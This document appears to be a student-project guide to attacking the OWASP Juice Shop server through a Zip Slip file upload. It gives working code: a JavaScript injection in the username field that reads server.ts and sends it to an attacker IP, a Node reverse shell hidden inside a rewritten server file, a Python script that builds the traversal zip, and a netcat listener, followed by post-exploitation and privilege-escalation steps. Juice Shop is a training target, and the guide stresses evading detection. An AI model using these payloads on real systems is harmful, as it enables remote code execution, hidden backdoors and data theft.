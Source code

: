 # Server-side Attack

This is a guide on how to get a reverse shell on the server hosting the juice shop website based on the **Zip Slip** vulnerability to write arbitrary files, in this case, to write the server code file.

## How to attack the server

### Part 1 - Server files exploration

* To successfully attack the server without detection, it's crucial to discreetly alter specific files. We need to understand which files to modify and their contents, allowing us to hide our exploit effectively and make it difficult to discover.
* During our project, we identified numerous vulnerabilities on the website, with a particularly significant one in the profile's username field. This vulnerability allows us to execute code on the server machine. Using this, we can run a command to list all directory contents ("ls") and send the output to a listening service.

So, changing the username of a user in (`{SERVER_IP}:{PORT}/profile`) to :

```javascript
const { exec } = require('child_process'); const net = require('net'); exec('cat server.ts', (err, stdout,stderr) => { const client = new net.Socket();client.connect(4444, 'IP_ADDRESS', () => {client.write(stdout);client.end();});});

```

where the IP_ADDRESS is the ip of the attacker.

* Using this strategy, we will eventually discover that the server code resides in **server.ts**. By executing a similar command ("cat server.ts"), we can reveal its contents.

* With further exploration, we can determine that every file submitted in the complaints to the website is stored in the 'uploads/complaints' directory.

### Part 2 - The attack

* With the knowledge obtained in the part 1, we can now attack the server.
* Now, we create a file called **server.ts** that contains the same code as the original server file and the actual exploit carefully hidden in the middle of the real code like this:

```javascript
(real code)

/* Exploit */
let net = require("net")
let cp = require("child_process")
let sh =  cp.spawn("/bin/sh", []);
let cl = new net.Socket();
cl.connect(4444, "IP_ADDRESS", function(){ cl.pipe(sh.stdin); sh.stdout.pipe(cl); sh.stderr.pipe(cl); });


(real code)

```

where the IP_ADDRESS is the ip of the attacker.

* After creating the malicious server code file, we can put it inside a zip file, with this structure: '../../server.ts'
* This way, we go to the actual directory where the real server file is located and we can rewrite it.

```python

import zipfile
PATH = "../../"

def main():
    zf = zipfile.ZipFile("evil.zip", "w")
    zf.write("server.ts", PATH + "server.ts")
    zf.close()
if __name__ == '__main__':
    main()


```

* Now, we just submit the zip file in the complaints page (`{SERVER_IP}:{PORT}/#/complain`)
* We can open a terminal listening to the port defined: `nc -lnvp 4444`
* After submitting, we need to wait until the server restarts.
* Once it restart, we will get a shell on the server machine.

### Part 3 - Exploration and Privilege Escalation

Once inside, there are a lot of things we can do:

* Enumerate user accounts and their privileges.
* Investigate running processes for potential vulnerabilities or misconfigurations.
* Search for configuration files that may contain sensitive information or credentials.
* Search for open ports and services to identify potential attack vectors.
* Inspect system logs for any unusual or suspicious activities.
* Utilize known exploits or vulnerabilities specific to the operating system or installed software.
* Attempt to escalate privileges using kernel exploits if applicable.
* Conduct a thorough review of cron jobs and scheduled tasks for any opportunities.
* Explore network shares and mounted filesystems for additional data or access points.
